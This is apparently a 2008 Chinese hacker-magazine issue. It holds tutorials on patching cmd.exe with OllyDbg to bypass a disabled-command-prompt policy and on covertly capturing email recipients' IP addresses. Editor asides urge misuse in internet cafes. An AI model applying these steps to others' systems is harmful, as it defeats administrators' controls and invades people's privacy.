- 2、使用 OD 载入 cmd，单步步过（F8）直到 4AD0515F 时，CMD 窗口提示“命令提示符被禁用”，如图 1。


我们在 4AD0515F 下个断点（选中后按 F2），再 Ctrl+F2 重新来过。程序停在入口处直接 F9 运行，就断在了我们刚才下的断点 4AD0515F 处，然后 F7 单步步入，再是 F8 单步步过到了 4AD04058，这里可以看到一个 je 语句，跳往下方。如果跟过去就会发现，再走几步就会提示“命令提示符被禁用”了！所以这个应该是关键跳转，我们将其修改为 nop（方法：在语句上面点击右键选择“二进制”——“使用 nop 填充”），然后右键“复制到可执行文件——所有修改——全部复制”，在弹出的窗口点击右键选择“保存文件”以任意文件名保存（后缀为“.exe”就行），然后我们运行下刚才保存的文件，结果如图 2。


哈哈，怎么样，禁用取消了吧！耶！完成了一步，go on！下面我们再用 OD 来加载我们修改过后的 CMD 吧，这样方便点。方法和上面的大同小异，主要就是单步跟踪，具体操作如果不明白可以来找我（本来是想做个录像的，结果文件被我搞坏了，还没有备份(-_-!)，下次一定注意）！这次跟到了 4AD040A8，发现把这里 nop 掉后程序启动后就不会自动运行 notepad.exe 了，不像其它地方。虽然改了不会自动将记事本启动，但是程序却什么命令都无法执行，晕……然后像刚才一样保存文件，运行，OK！不但解除了限制，而且那个记事本也没有像跟屁虫一样地跟来了！

我们自己的纯绿色无公害版 CMD 打造成功了！下面就可以让系统自带的 CMD 光荣下岗咯！还是一个脚本搞定！将以下内容保存为“任意文件名.bat”就可以了，代码如下：

```bat
@echo off
Title ==庆祝原版CMD光荣下岗==
Rem 上面是设置批处理标题
Color 0a
Rem 这里设置批处理的前景及背景色，详细信息可以在 cmd 下打 help 查看。

echo 热烈庆祝原版CMD下岗！
Echo 开始交接……
Ren %systemroot%\system32\cmd.exe cmd.exe.bak
Copy okcmd.exe %systemroot%\system32\cmd.exe
Echo 交接工作完成
Pause
```

## 后记

其实这中间也有很多的曲折，比如开始的时候我选择了一个调用 notepad.exe 的 call（已经是选了三层了！），结果保存在其中无法执行 notepad.exe 命令，反倒调用了记事本！然后就又重新来了几遍，总算搞定了！总之，各位自己做的时候细心耐心点就好了！（另外说明下，我做的这个绿色 CMD 无法正常加载脚本文件（一_一），应该是哪里给改坏了，各位自己研究下吧。另外，根据具体版本不同，CMD 的内部结构可能会有一点点的区别，各位自己灵活运用吧 ^_^）一定可以成功的！如果大家有问题和我讨论可以与我联系，我的论坛 ID 是斑驳凌冰，谢谢观赏……

> 【文章中涉及的注册表脚本、批处理及修改后的 cmd 在光盘中有收录】

## 编辑点评

关于 CMD 的这个 Autorun 功能，大家可以在命令提示符下输入 cmd /? 查看相关帮助。我想既然 Windows 提供了这个功能，必有其用武之地，禁用了不好吧……呵呵，个人看法，不过破解了系统对 cmd 的禁用还是有些作用的哦，比如在网吧中做坏事……大家自己发挥吧！

## 利用 Hosts 文件为你上网扫雷

从本文中你可以学到：

利用 hosts 文件自定义屏蔽网站列表

现在有很多网站不经过用户同意就将各种各样的插件安装到你的计算机中，其中有些说不定就是木马或病毒。另外，在使用电脑的过程中，有时出于维护系统安全需要，可能不希望别人随意使用电脑来上网冲浪。对于上述问题其实我们可以利用 Hosts 文件来轻松解决，只要把该网站的域名映射到错误的 IP，就能达到无法正常访问该网站的目的。

在 Windows 2000/XP 系统中的 %Systemroot%\System32\Drivers\Etc 文件夹中，其中，%Systemroot% 指系统安装路径。例如，Windows XP 安装在 C:\WINDOWS，那么 Hosts 文件就在 C:\WINDOWS\system32\drivers\etc 中。你也可以用 Windows 自带的查找功能搜索找到 hosts 文件，该文件其实是一个纯文本文件，用普通的文本编辑软件，如记事本等都能打开和编辑。用记事本打开 hosts 文件，就可以看见微软对这个文件的说明，如图 1。

这个文件是根据 TCP/IP for Windows 的标准来工作的。它的作用是定义 IP 地址和 Host name（主机名）的映射关系，是一个映射 IP 地址和 Host name 的规定。这个规定中，要求每段只能包括一个映射关系，也就是说一个 IP 地址和一个与之有映射关系的主机名。IP 地址放在每段的最前面，映射的 Host name 在 IP 后面，中间用空格分隔。对于该段的映射说明，用“#”分隔后用文字说明。


现在让我们来看 Hosts 在 Windows 中是怎么工作的。我们知道在网络上访问网站，首先通过 DNS 服务器把要访问的网络域名（XXXX.com）解析成 XXX.XXX.XXX.XXX 的 IP 地址后，计算机才能对这个网络域名做访问。要是对于每个域名请求我们都需要等待域名服务器解析后返回 IP 信息，这样访问网络的效率就会降低，因为 DNS 做域名解析和返回 IP 都需要时间。为了提高对经常访问的网站域名的解析效率，可以通过利用 Hosts 文件中建立域名和 IP 的映射关系来达到目的。根据 Windows 系统规定，在进行 DNS 请求以前，Windows 系统会先检查自己的 Hosts 文件中是否有这个网络域名映射关系。如果有则调用这个 IP 地址映射，如果没有，再向已知的 DNS 服务器提出域名解析。也就是说 Hosts 的请求级别比 DNS 高。我们在 Hosts 中写入以下内容：

```text
127.0.0.1  要屏蔽的网站A
0.0.0.0    要屏蔽的网站B
```

这样，计算机解析域名 A 和 B 时，就解析到本机 IP 或错误的 IP，达到了屏蔽网站 A 和 B 的目的。下面给大家几个屏蔽不想访问的网站的例子。在 hosts 文件中加入如下内容就可以屏蔽文件中定义的对应网址：

```text
127.0.0.1 localhost
127.0.0.1 download.3721.com
127.0.0.1 3721.com          # 3721网络实名
127.0.0.1 3721.net          # 3721网络实名
127.0.0.1 cnsmin.3721.com   # 3721网络实名
127.0.0.1 cnsmin.3721.net   # 3721网络实名
```

```text
127.0.0.1 download.3721.com # 3721网络实名
127.0.0.1 download.3721.net # 3721网络实名
127.0.0.1 www.3721.com      # 3721网络实名
127.0.0.1 www.3721.net      # 3721网络实名
127.0.0.1 localhost
127.0.0.1 bar.baidu.com     # 百度IE搜索伴侣
127.0.0.1 www.baidu.com     # 百度IE搜索伴侣
127.0.0.1 baidu.com         # 百度IE搜索伴侣
```

上面的例子是对 3721 和百度网站做了屏蔽，当你在浏览器打开上面两个网站都无法显示。只要你知道哪些网站不安全，都可以在 Hosts 文件中屏蔽。呵呵，对于 Hosts 文件还有很多作用，这里只介绍了其一，希望给大家在网上冲浪上有所帮助。由于本人还是小菜，写得不对的地方希望高手指正。

## 编辑点评

正如作者所说的，hosts 文件有两个作用：一是提高访问网站的速度；二是屏蔽不良网站，目前看来它的第二个用法用得更广泛一些。我们还可以利用 hosts 文件在本地搭建 web 环境时通过任意域名访问本地的站点，这在测试时也是很有用的。

## 获取对方 IP 等信息的新方法

从本文中你可以学到：

如何通过发送邮件获取对方 IP 地址

也许大家喜欢珊瑚虫 QQ 的原因主要是因为它可以直接显示对方 IP。不过珊瑚虫倒下了，我们想要得到别人 IP 地址时，该怎么办呢？下面我就向大家推荐一款小工具：SpyPig，这是一款很好用的邮件跟踪工具。现在，我向大家介绍它的用法。

- 1. 第一步：先将要发送的邮件内容、附件、收件人地址等填写好，留下的事情只是最后一步发送操作。
- 2. 第二步：在浏览器中打开 http://spypig.com/ 页面，如图 1。在 “Your email address:” 框中输入你的发信邮箱地址，“Your message title:” 中输入你的邮件标题或其它可以将此邮件与其它邮件区分开来的信息，再选择一个图片。
- 3. 接下来，点击 “Click to Activate My SpyPig” 图标，此时将会看到下面的 1 分钟倒计时开始，在数字达到 “0” 之前将上面的图片复制并粘贴到邮件内容中，完成邮件发送即可。
- 4. 第三步：将这封安排了跟踪者的邮件发送给对方后，当对方打开邮件时，SpyPig 这个“蒙面猪”就会私下里向你汇报情报，包括打开时间、IP 地址、次数等。这些信息都会以邮件的形式发往你的发件箱中，打开即可查看，如图 2、图 3。

如果你不知道对方的邮箱，就发到对方的 QQ@qq.com 就可以了……至于如何识别人打开，就看你社工用得怎么样了……


在使用这头猪时，我家的 NOD32 并没有报警，说明这个伪装成图片的链接可以轻易过杀软……也许你已经想到了，如果把小鸟也做成这样……本人就不往下说了，靠大家自己研究。

与上面这头“SpyPig”功能类似的还有国产的“邮件追踪服务器”，它也可以实现邮件跟踪的目的。不过，当你读到这则技巧时，可能早就胆战心惊了：我接收查看邮件岂不是在发件人眼皮底下的事，假如对方图谋不轨咋办？为此，我再说几条防范的办法：

- 1. **线上下载，线下看**  
  上面介绍的邮件跟踪就是通过一幅图片（其实是一个链接）是否被显示（以及显示的次数、位置等）来达到跟踪的目的。而你在收件时秉承线上下载、线下看的原则就能有效防止被跟踪了。
- 2. **隐藏 IP 地址**  
  既然跟踪技术能窥得收件人的 IP 地址，因此，通过代理服务，

## 用 RAR 对付兔子的文件夹加密

■ 年晓我

从本文中你可以学到：

使用 WinRAR 破解简单文件夹伪装

前天在电脑城刚淘到一台二手电脑，笔者在整理硬盘文件时无意中竟翻出一个名为“秘密档案”的加密文件夹，如图 1。单从名称上就很惊人，不知里面究竟藏着什么好东西。


先双击试试，没反应；右键选择“打开”，竟弹出了“控制面板”，如图 2。看来自里面确实有猫腻，怎么办呢？寻思了半天，忽然想起好像以前有人弄过这种伪装，大概叫什么“特征字符”。只要在为文件（夹）重命名时输入类似于 .{33BC7878-4D1D-2014-E5PP-03220J62627G} 的格式信息后，文件（夹）就会被加密成外观类似于系统的“回收站”等形式，当然也能将一个视频文件加密成普通文件夹的状态。看来今天遇到的这个，是在重命名时使用了“控制面板”的特征字符，所以“打开”时就直接骗 Windows 系统跳到真正的控制面板中，这样就达到了加密的目的。既然这样，那如何解密呢？同样是受到很早以前的一种将普通文件夹伪装成系统“回收站”图标方法的启示，曾有人用 WinRAR 轻易就将它现形了，不知是否可行？


首先在同级文件夹中任意新建一个 RAR 压缩文件，双击打开调出 RAR 程序。然后单击“向上”按钮，看到了吧，如图 3。


果然是这样的加密方法！此时既可以将它重命名，也就是将后面所附加的“.{21EC2020-3AEA-1069-A2DD-08002B30309D}”删除，还原为原来文件夹的真正面目；也可以直接右击选择“查看文件”，里面的内容全部都暴露无遗了。

后来在网上查了查，很惊奇地发现这种加密法竟是大名鼎鼎的“超级兔子”所采用的伪装文件夹法，人家已经明明白白地写着……

> 编辑点评：

虽说这是一种比较被动的方法，但是结合上社会工程学，相信获取对方的 IP 地址也不是什么困难的事情。再有这样的好东西的时候，大家可不要忘了分享哦！

> 没眼看黑

（大段正文，内容为连续中文段落，因扫描质量较差但可辨认为一篇文章正文。）


“此功能可以将一个正常文件夹伪装成控制面板”，如图 4。

虽然不可以直接将这个加密的文件夹重命名以回到普通文件夹状态，但没想到 WinRAR 却功能强大到可以轻易识别此类加密。文章写到这儿其实应该结束了，不过笔者忽然又想到 Windows 系统的前身 DOS 系统，它应该也是工作于底层，不会也可以识别吧？OK，打开“开始”——“运行”，输入 cmd 并确定进入命令提示符界面。转到对应的路径后输入“DIR”命令查看一下，哈哈，果然不出所料，一下子就露馅了，后面的“.{21EC2020-3AEA-1069-A2DD-08002B30309D}”加密尾巴出来了，跟刚才用 RAR 看到的一样。此时只须一条改名命令：REN 秘密档案.{21EC2020-3AEA-1069-A2DD-08002B30309D} 秘密档案，如图 5，不就把它的加密尾巴给剁下来了吗？


此时不管是再用 DOS 的 DIR 命令查看，还是回到 Windows 界面中，原来的加密文件夹已经彻底变成了普通文件夹。怪不得兔子的作者已经提醒用户注意：“这是一种比较简单的伪装，只适合对安全性要求不高的场所使用。”

原来如此！

> 编辑点评：

应该是 WinRAR 和 cmd 获取文件夹或文件的名称得更彻底一些吧，Windows 越往后发展就越受人性化，很多东西自然而然做得更容易让用户理解和接受一些。除了这个用途，我们还可以在 WinRAR 中浏览任意系统中的文件，它这时就充当了一个资源管理器，这在网吧破解的时候会有用哦！

## 在告别2008：关于技术与广阔的一些思考

每天有无数网站被人侵入，每天也有无数人投身到伟大的黑客事业中来，这些人的动机多种多样，但人们最初可能都是因为好奇才开始学习黑客技术的（笔者正是其中的一位）。黑客技术迷人的重要原因就是它无处不在地挑战着人的想象力，挑战权威，充分地发掘着人的潜力。我们可以看到很多安全理论被推翻，真正的黑客在用他们的智慧告诉人们，没有什么系统是绝对安全的，我们所能做的只有不断进步。所以在我看来，创造与挑战是黑客技术的关键词。

1991年初，一个叫 Linus Torvalds 的芬兰人开始在一台 386 兼容微机上学习 Minix 操作系统。通过学习，他逐渐不能满足 Minix 系统的现有性能，而当时商业版的 UNIX 价格昂贵，于是他开始酝酿开发一个新的免费操作系统。于是，一个自由开放的 Linux 操作系统横空出世了。

所以，在我看来真正要达到高手的境界，动机一定要纯粹。如果说有人学习黑客技术只是为了有好房好车的话，我想这个人学到后来肯定会很后悔，因为他如果不用非正常手段的话，实现他的目标可能需要相当长的时间（这就不难解释为什么现在有那么多人在不停地挂马与卖流量了）。最后他的热情会被各种欲望所吞噬掉，更别说创新与挑战了。

已经记不清是什么时候开始，网络与杂志上所出现的文章大部分被一种技术所占据了，那就是 SQL Injection。而现在，这种技术依然没有被完全淘汰，每天有无数人在不停地找注入点，接着用一些傻瓜化的工具来猜解密码，上传 WebShell。厉害一点的就会自己在一些整站代码里寻找没有很好被过滤的函数，然后试着向这些函数传递他们的 SQL 语句。

在反复使用这种技术入侵的同时，我们有没有创新呢？我们的智力有没有得到锻炼？这个看似很牛逼的技术其实用一个“找”字就可以概括：找没有包含过滤文件的页面，找没有过滤好的参数。虽然这也能称之为发现漏洞，但是当这种漏洞的发现过程被几乎一遍遍地复制后，所有的一切开始变得无味。以前看过一篇关于黑客精神的文章，里面有句话很有道理：

> 一个问题不应该被解决两次。

聪明的脑袋是宝贵的、有限的资源。当世界还充满很多有待解决的问题时，它们不应该被浪费在重新发明轮子这类事情上。当我们将一个老的技术弄明白以后，就应该向新的高峰发起挑战；如果我们只是乐此不疲于几个老技术、老漏洞，那将是很可悲的。

计算机安全总的来说应该是由系统安全与网络安全共同构成，SQL 注射、提权都只属于系统安全，而协议与网络设备的管理都属于网络安全。感觉我们天天围着那些看似美丽的东西转，却忘了还有很多地方是我们没有触及和研究的。

既然如此，为什么我们不打开眼界，看看其他方面有没有什么可研究的呢？如果把名利抛开，相信技术还是值得研究的（当然，要做到这些是很不容易的，无数人就为着这个名字奋斗着）。最近笔者看了一本叫《入侵的艺术》的书，作者是大名鼎鼎的 Kevin Mitnick，但这本书并不是讲他的，而是讲他几个朋友的故事。从中我真正体会到了什么叫黑客智慧的光芒，因为几乎任何有芯片的东西都可以进行黑客活动，都可以挑战自己的智商。以下有几个方面比较典型，大家如果有兴趣都可以去研究一下：

### 关于手机的安全研究

手机越来越像电脑了，而笔者更大胆地预测，在几年之后用手机上网的用户会超过用电脑上网的用户，因为在 3G 技术普及之后，手机在各方面都有着无法比拟的优势。而手机又是如此脆弱，现在已经有了蓝牙传播的木马了，那利用手机系统漏洞传播的蠕虫会不会很快就出现呢？

### 网络协议的缺陷与发掘

ARP 欺骗技术在很早就已经出现了，但由于各种原因，现在才开始流行并且受到人们的重视。ARP 欺骗之所以如此难以防御，说到底就是因为其利用的是网络协议的缺陷，网络协议是不能更改的。要根本防御这种欺骗是不可能的（除非你重新开发出一整套规则和驱动，也就是说重新搞个协议出来），再加上现在的电脑并不具备人工智能，所以只能用绑定 MAC 地址这样的麻烦方法去防御这样的攻击。ARP 协议有缺陷，其他的协议是否也有呢？

### 在 Linux 下的安全研究

为什么现在我们十篇入侵的文章有九篇是在 Windows 下进行？是 Linux 太完美，不可能入侵么？不，是研究 Linux 的人不够多。Windows 现在是江河日下，Linux 是大势所趋，让我们抢先一步吧。

### 网络设备的攻击与防御

关于无线路由器、交换机、防火墙这些组成网络的设备我们又真正了解多少？你可能会说没有研究的条件，因为这些设备都价值不菲。其实网上已经有各种虚拟器可以实现这些设备，笔者有机会将详细讲述。

### 网络安全的解决方案

建设永远比破坏难。也许你可以轻而易举地用 CAIN 嗅探出密码，然后说自己征服了整个内网，但你可能并不会搭建一个简单的网络。搭建网络是个十分复杂的工程，VLAN 与 DMZ 的划分、VPN 的设置、路由器与中心交换机，还有拓扑结构等一大堆的配置，都需要我们去研究。为什么我们不来试试呢？

### 关于 Web 2.0 的安全隐患研究

Web 2.0 带来了一场网络革命，Google、MySpace、YouTube 等新型网站与网络服务的出现给无数人带来了快乐与方便，但同时也带来新的安全隐患。比如 Google 搜索由于过于强大而泄漏许多敏感信息与个人隐私，这些又给我们带来了新的机遇。

不过要真正开阔视野，首先要做的是将态度转变过来。如果你整天想着怎么样发财或名成家就，那用 SQL 注入去挂马、卖流量当然是最好的选择，但此时你也成为了那些欲望的奴隶。在整个社会充满浮躁的大环境下，急功近利的思想四处蔓延，人们的想法越来越实际，但这些并不能成为我们抛弃纯粹的理由。也许纯粹的理由的确很难坚守，也许有人会笑我天真，可只要有人看过我的文章之后有所领悟，我的目的也就达到了。

如果以后我们在技术上的视野能再开阔一些，对待技术的态度能再纯粹一些，我们一定能收获得更多，也会过得更快乐。

## 编辑点评

正解！当一个人用同一个漏洞去不断地黑掉别人网站时，他得到的也许是 WebShell，而失去的，却是他的宝贵青春和开拓创新的勇气。而我们需要更好的态度和更好的想法去创造个人价值，实现自己的理想。这样才不会让更多有意义的事情和自己失之交臂！

## 断头台 IV——枪舞

题记：生命之美在于将来的不确定性，充满了激情和危险。每日乘坐公交车出门，所面对的大多还是那些平日里经常见到的事物，日复一日，不曾有太大变化。但是没有太大变化，意味着只要有一些小小的变化，便会感动心扉。

文叔有一个秘密，这是他在认识雯倩之前的故事。文叔虽然多话，却从不唠叨。文叔喜好喝酒，却从来不醉。所以他一旦醉了，就开始唠叨着说秘密了。中学的文叔很是勤学刻苦，拼命地努力只是为了高考的时候多点分数，以便进入不错的大学。这就好比修仙的筑基，进入一间有名的大学，才能在将来的修行中少走弯路。只可惜我是少数不懂得这个道理的人之一，周围的人拿着高薪做着低能的事情，我眼中除了羡慕还是羡慕。

可见，贵族和庶民是有着阶级差异的。这种差异在高考的时候才有一个相对公平的节点，文叔希望跃进龙门。文叔是很聪明的人，从他恶毒且犀利的言辞中就可以发现。这种人是可以吸引少女的，所以雯雯就这样上钩了。我问酒醉的文叔，为什么你现在身边的女人是钟情而不是雯雯。

他面无表情地说，获取一个女人的身体，远比获取她的忠诚容易。我恍然大悟，原来珠儿被我获取的，不仅仅是身体。

文叔说雯雯对他很好，那个时候的才子就好像现在的富家子弟一样吃香。学校的男女同学看着他的眼神都是嫉妒。才子佳人的搭配，果然自古以来都是话题。一般来说，男人有钱就变坏，不是因为他想变化，只是自己手头所掌握的资源和能力多了，自然会做一些常人所做不到的事情。

文叔就属于这种精力过旺的人，白天黑夜的辛苦也没有消耗完自己所有的精力。所以他走上了黑客的不归路。初级菜鸟的他很轻松地就被学校教务处给抓了个正着，考虑到文叔在学校一贯表现良好，这件事就没有通报批评，不过还是有少数的几个人知道了。

雯雯是个好孩子，好孩子的思想都是又红又专，对于这种品行不端正的人，她当然要坚决地离弃。文叔说那会很痛苦，被甩的心理阴影让他做事更加小心，也再也没有被抓过。不过渐渐地就对黑客方面的事情失去了激情。黑客这个东西属于逆水行舟，不进则退。一旦失去激情，就无法迈开寸步。

严格意义上说，雯雯并不是美女，而那个时候的文叔也绝对不是现在这么有性格的帅哥。为什么他对雯雯如此耿耿于怀，我只能认定这是他第一次付出感情。步入社会的成年人选择交往对象，都会考虑家庭、社会环境以及经济状况。没有考虑这些的文叔，已经注定了结局。小孩子以为有爱就可以无敌，却不晓得饿肚子的情况下只能分道扬镳。

> “爱一个人，就要爱他的思想。”多么崇高的理念啊，可如果要真的相信这句话你就彻底完了。

文叔说，既然黑客乱搞是不对的，那么我乱搞黑客就是对的吧？所以文叔虽然不做黑客，但是技术依然没有退步。如果仅仅是为了体验交锋的快感，那么黑客与反黑客都是幸福的。这种快感，和有钱人用钱欺压贫苦百姓是一样的，和身强体壮的痞子踩扁身体孱弱的小学生是一样的。这种快感是什么？是用压倒性的实力来摧倒不愿意听到的声音。

有一次，文叔在北京看到了雯雯，在一家 4S 店卖车，服务态度很好。雯雯也看到了文叔，不过很明显，她装作不认识文叔，依然很热情地推销最新款的梅赛德斯。我问他怎么看出来的，他说，她的眼神没有光泽。我说你怎么和她打招呼的呢。他说，我要买 QQ。我一直认为文叔很幽默，卖穷和装富都是一件很让人愉快的事情。

文叔摇头，他说耍贱比她还幽默。

她说我们这里不卖国产车。

我觉得文叔有点傻，这样去搬弄耍贱，两个人的关系肯定是没得恢复。女人都是好面子的生物，如此的嘲讽势必让局势变得更加恶劣。

好吧好吧，我理解为你爱上她了。但是依照你的一贯作风，有必要把她当老婆一样对待么？

当然，没有这个必要了。不过我这般对她，是因为我们有相同的思想。

他说你认为我还会去追她么？男人如果真的爱上一个女人，分手之后只会剩下恨。如果不够恨，只能说当时爱得不够深。

爱上另外一个人不是不可以，只是之前爱过的，却一定会耿耿于怀。

思想是看不见的，我们可以相信一个人的外在是美还是丑，可永远不知道他内心是否阴暗和猥琐。

文叔说，我们住在一起之后，我发现她有时候会自顾自地半夜起床上网。这不是个好习惯，我留心看了一下，不过没有得到什么结果。这证明她和我一样，很谨慎。哪怕真有什么事情也不会轻易让人发现。

我说，你觉得耍贱过得好么？

文叔说耍贱既然选择了分手，那么绝对不应该后悔。所以从这一点来说，她是幸福的。不过作为一个卖车女，生活还是有些单调，从生活质量上来说，没有太大的前景，有待提高。

社会是有阶级的，卖车女不可能嫁给富家公子，就好比穷人不可能一出手就买走一辆大奔。

不过这只是轻易不让人发现而已，最终花了点时间我发现她和我一样。

和我一样啊，都玩黑大战。文叔笑得眼泪都出来了。

我拉着她的手问为什么，她说她寂寞。

从那一刻开始，我就决定要真心爱护她了。因为我也是很寂寞的人，只有两个寂寞的人在一起，才能冲淡寂寞，分享快乐。

她真的很聪明，我说什么她都懂。所以我不能不爱她，我比任何人都爱她，所以她也是如此爱着我。

更何况，我不仅爱她，我还有钱。

那你怎么勾搭上钟情的？我问道。

因为我最初看不起她，但她出乎我的意料。文叔乐了，钟情还不是你们介绍给我认识的么？

我说，那是，她虽然漂亮却从不骂人，她虽然冰冷，却从不端人。结果她因为你骂了，端了。说明你们还是有缘。

是啊，正因为这样，被女人骂了骂了，一定得找补回来。文叔说道。

对女人不是应该好一点么？

好一点？女人什么时候对男人好一点了？待价而沽、持币观望又或者脚踏两只船，多数女人都是如此。何必要以骑士的准则去对待她们。文叔慢慢说道。你知道为什么你没办法经商么？那是因为你太把女人当回事了。作为一个女人，她首先只是一个“人”。心如明镜，明镜止水，如此才能将她们彻底地摧毁。

我们曾就是否该找个黑客女朋友讨论过很久，另一个哥们倾儿对此坚决抵制，他讨厌黑客的自负和骄傲，以及看透一切的冷漠。

文叔说，黑客不是自负、骄傲和冷漠，他们是因为长期面对电脑而寡言少语，即使心中有千般心思，苦于无法表达，也只能默默地沉沦。而这，恰被误会成冷漠。

深入去了解，会发现平时根本不会发现的东西；深入去了解，会发现美人自在身前。

文叔开始有点跑题，我提醒他，到底是怎么勾搭上钟情的？

他晃了晃脑袋，坐直了身子。我约了钟情，请她喝酒。我以为她必然会拒绝，我就可以将酒泼到她脸上，然后花钱了事。那样的话，我将花了钱，赚了面子。

钟情只是看了我一会儿，就温顺地答应了下来。因为这一点，我爱上了她。她明白男人需要的，也明白自己该做的。这是一个很聪明也很可爱的女人。

## 酷玩 QQ 窗口连续抖动

QQ 自从推出了新功能“向好友发送窗口抖动”，让不少 Q 迷们喜爱。不过发送一次后等会儿才能再发第二次，今天我们一起来看看怎么能连续发送，让聊天窗口不停地抖动。

这里需要借助一个叫“变速齿轮”的软件，相信大家都不会陌生。首先在你的 QQ 里打开跟你朋友的聊天对话模式，再打开变速齿轮，变速调到最快，在左边把聊天进程加到速度改变的进程中。如图 1。这样我们就可以连续不断地向对方发送抖动窗口，让对方聊天窗口连续抖动不断。

变速齿轮下载地址：http://www.skycn.com/soft/5744.html

## 黑客围城崛起俱乐园
### ——采访中国X黑客小组三当家承诺

采访人：黑手编辑小迷

被采访人：承诺（又名诺诺），现于 IT168 工作。

承诺，传说中中国X黑客小组三当家，“娱乐圈”资深评论家！本期 NoHack 直播就让小迷我带大家走进承诺的世界，了解“娱乐圈”的内幕……

> （PS：“泪奔，泪流，万里涛涛江水永不休……”）

全场一片肃静，只见承诺摆了个 POSS，施展貌似传说中的轻功飞到小迷身边，对着大家深情地一笑！台下粉丝顿时一片欢呼。

**NoHack：**“先生们，女士们，广大黑友大家好！本期 NoHack 直播又和大家见面了！小迷我首先在这里祝大家新年快乐，万事如意，心想事成……”

土豆：“你再不切主题就给我去实景采访……”

**NoHack：**“下面我们有请本期嘉宾承诺，大家掌声欢迎，音响师，Music 起！”

**承诺：**“Hello，大家好！我是承诺！不过大多数人都喊我诺诺。不是 GGMM 们在一起恋爱时的海誓山盟啊！”

**NoHack：**“诺诺，你大约是什么时候开始接触黑客圈的，又是什么原因让你接触这片神秘领域的呢？”

承诺微笑了下，顿时 NoHack 直播室感觉白光一闪，难道这就是传说中的杀人绝技？

**承诺：**“我接触黑客技术大约是在 09 年的时候吧，接触的原因仅仅是因为好奇，并且当时时间比较富裕。”

台下观众甲：“09 年？佩服佩服！超人啊！现在 2008 年还没过完呢……”

此话一出，顿时 NoHack 直播室引起一番骚动，路人甲被 N 多 MM 包围，只听到一声声骨折碎裂的声音。承诺依旧保持着微笑。

这时大屏幕打出字幕：请 18 岁以下儿童在家长的陪同下收看，否则一切后果自负，谢谢合作！

**NoHack：**“诺诺接触黑客圈的时间不算晚，而且在这个圈子里也小有名气，能否给各位黑友们介绍下初期如何迈进这个门槛？有没有什么窍门没有？”

**承诺：**“说实话真的没有什么技巧，刚开始的时候仅仅是因为兴趣和好奇，我是纯看那些满天飞的教程学的。我觉得黑客技术这玩意儿就是要多看、多想、多动手，一分耕耘一分收获。我想每一位‘娱乐圈’的哥们都是这样过来的，除非是天才。”

**NoHack：**“传说中你是中国X黑客小组的二当家，中国X黑客小组是谁创建的？当初又是什么想法创建的呢？”

**承诺：**“中国X黑客小组最初是由原中国黑客联盟的核心飞蛾建立的，中国X黑客小组原来是黑盟的华中站，后来联盟解散了，中国X黑客小组才开始独立发展的，算算也有五六年时间了，同时期的很多站都已经不见踪影了。我？二当家？我觉得这是土豆同学在误导读者。我一直只把自己看成是 X 黑客小组的一个成员而已，普普通通的成员，和别的 X 黑客小组成员没什么区别。”

小迷马上上蹿下跳，误导读者，当场作和承诺辩论半天，结果承诺同学一口咬定这事就是土豆同学干的。

**NoHack：**“记得诺诺说过黑客圈就是‘娱乐圈’，是什么原因让你说出这句话？是深有体会还是……”

**承诺：**“其实这个也不算是我首创，主要是觉得国内这个所谓的‘黑客圈’有太多的浮躁和是是非非。曾经有一段时间，每天都能听到谁谁谁的花边新闻，谁和谁之间的是是非非。经过 QQ 群的累积和加工，感觉就像‘娱乐圈’一样，每天都有不同的八卦。记得群里的哥们经常说的一句话就是：‘其实我是演员’。所以就有了‘国内的黑客圈其实就是娱乐圈’的说法。”

**NoHack：**“黑客圈和娱乐圈的一些现象相互对应，对于黑客圈的黑色产业你有什么看法？或者说有什么见解？”

**承诺：**“黑色产业？我没啥看法，生活所迫，干啥事的人都有，只是很讨厌到处挂马的人。一个能注射的站，肯定会被挂上马，不管这个站是大是小，能挂就挂。而且有时候，一个站挂了四五个马也不是什么新鲜事，甚至直接卡死 IE（本人不太喜欢用 Firefox）。在此通过‘黑手’向广大兄弟说：挂马就挂马，要挂也挂得有水平一些，别卡死 IE 了，那样谁都知道站被挂马了。”

不知道为什么承诺一谈到这个就愤怒发泄，不过事后经过调查，承诺的爱机就是上了一个网站，被那铺天盖地的小“马”搞冒烟的……

**NoHack：**“黑客圈里的是是非非，很多时候的冲突就是来源于金钱和利益。人生短短几十年，都在娱乐圈里混，何必为了几个钱而撕破脸皮和弄得八卦满天飞？”

**承诺：**“我和众多的黑友一样，仅仅是这个娱乐圈中的一位演员，并不是这场戏的导演，也不是传说中的黑客教父，所以我是没资格去评定这场戏该如何发展，只能是继续地默默关注中。”

**NoHack：**“黑客娱乐圈的泡沫是不是已经破灭了？”

**承诺：**“有人的地方就会有娱乐，所以不可能会破碎。”

**NoHack：**“泡沫破灭之后，黑客圈还剩下什么？”

**承诺：**“假如真有那么一天泡沫碎无声，我想，一切都回归到原点，梦也该醒了……”

台下女“粉丝”们举起横幅大喊道：“承诺承诺我爱你，就像老鼠爱大米……”

小迷：“台下群众真是够热情，你……对！就你！节目直播后领取由 NoHack 制作，承诺亲笔签名的鼠标……垫一个！”

**NoHack：**“听说 J8 黑客是在你的大力扶持下成长起来的，你搞这个网站就是准备骂马，黑客娱乐圈吗？”

**承诺：**“不完全是，其实最初 13K 建了这个 J8Hacker 的目的就是为了爆料和娱乐大众，只是后来那里变成了谁不服谁就贴大字报的地方，13K 索性就关了。在 2007 年的平安夜，我把 J8HACKER 又重新建起来了，目的还是原来的，爆料和娱乐大众。当然，要骂人也要有足够的料，随便骂人是不行的。”

小迷：“你比我还八卦……绝对的……哈哈。”

**承诺：**“……”

**NoHack：**“ICE 现在是 J8 黑客网站的具体制作者，对于这位亲爱的 J8 创业伙伴，有什么评价？”

**承诺：**“暂时不回答这个问题，主要是等 ICE 请我吃完饭了，我再公布这个评价（这顿饭的价位等同评价的高低）。”

**NoHack：**“那我们换了一个话题！听土豆同学说在你粗犷的外表下，有一颗细腻丰富的内心，是这样的吗？”

**承诺：**“嗯……土豆同学憨厚的外表下，有一颗很 YY 的心……”

**NoHack：**“到目前为止，你经历了几次情感跌宕起伏？”

**承诺：**“汗。”

**NoHack：**“黑客对你来说意味着什么？”

**承诺：**“……”

**NoHack：**“编辑工作对你来说意味着什么？”

**承诺：**“这次直播的策划是谁？给我出来，我要扒了他的皮！”

就在这时，悠扬的钢琴声响起，直接触动我们心灵的音乐……

**NoHack：**“当你回想起你的童年，有没有辛酸的往事？”

**承诺：**“……”

**NoHack：**“各位先生，各位女士，各位到场的和正在收看直播的朋友们，欢迎大家收看本次 NoHack 直播，我们下次再见！”

## 编辑点评

